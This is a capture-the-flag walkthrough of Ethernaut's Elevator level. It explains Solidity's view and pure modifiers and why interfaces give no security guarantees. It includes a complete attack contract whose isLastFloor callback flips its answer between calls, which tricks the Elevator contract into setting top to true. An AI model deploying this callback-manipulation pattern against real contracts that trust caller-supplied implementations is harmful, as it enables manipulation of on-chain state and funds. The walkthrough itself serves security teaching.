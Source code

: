 # Level 11 : Elevator

**Ethernaut Level 11 : building**

`pure`and `view` are built-in **state modifiers**. They “promise” *how* functions will interact with data on Ethereum blockchain, i.e. the *state*

- `pure`: promises functions that will **neither read from nor modify the state**. Note: Pure replaces `constant` in more recent compilers.
- `view`: promises functions that will **only read, but not modify the state**
- `default`: [no modifier] promises functions that **will read and modify the the state**

![Untitled](images/level_11.png)

**Interfaces** allow different contract classes to talk to each other.

Think of interfaces as [an ABI (or API) declaration](https://hackernoon.com/ethernaut-lvl-0-walkthrough-abis-web3-and-how-to-abuse-them-d92a8842d71b) that forces contracts to all communicate in the same language/data structure. But interfaces do not prescribe the logic inside the functions, leaving the developer to implement his own business layer.

To pass this level, we have to make this check **first** **return true and then return false** within a single `goTo()` function call:

```solidity
// 1st check has to return false
if (! building.isLastFloor(_floor)) {
    floor = _floor;
		// 2nd check has to return true
		top = building.isLastFloor(floor);  //winning statement
}
```

The two interesting lines are here : 

```solidity
Building building = Building(msg.sender); // our contract is called to create "building"
if (! building.isLastFloor(_floor)) // our contract is called for the function isLastFloor not implemented here --> we can use this
```

Notice Elevator.sol never implemented the `isLastFloor()` function from the Building interface.

This means we can create a malicious contract called Building that implements this function. Then, when building.isLastFloor is call we can invoke goto() from our malicious contract.

⇒ our version of the `isLastFloor` function will be used *in the context of our level’s Elevator.sol instance*!

Solution : 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Building {
    Elevator public el = Elevator(0xf73ca0083eF87879b673893C542497d58D270428);
    bool public switchFlipped = false;
    function hack() public{
        el.goTo(1);
    }
    function isLastFloor(uint) public returns (bool){
        //Check 1
        if (! switchFlipped){
            switchFlipped=true;
            return false;
        } else {
            switchFlipped=false;
            return true;
        }
    }
}

contract Elevator {
  bool public top;
  uint public floor;
  function goTo(uint _floor) public {
    Building building = Building(msg.sender);
    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

- **Interfaces do not guarantee contract security. Remember that just because another contract uses the same interface, doesn’t mean it will behave as intended!**
- **Be careful when inheriting contracts that extend from interfaces. Each layer of abstraction introduces security issues through information obscurity. This makes each generation of the contract less and less secure than the previous.**
- **Watch out for the compiler version you are using or inheriting from. `View` and `pure` promises might be violated without you knowing!**

> “Solidity compiler does nothing to enforce that a view or constant function is not modifying state. The same applies to pure functions, which should not read state but they can”
>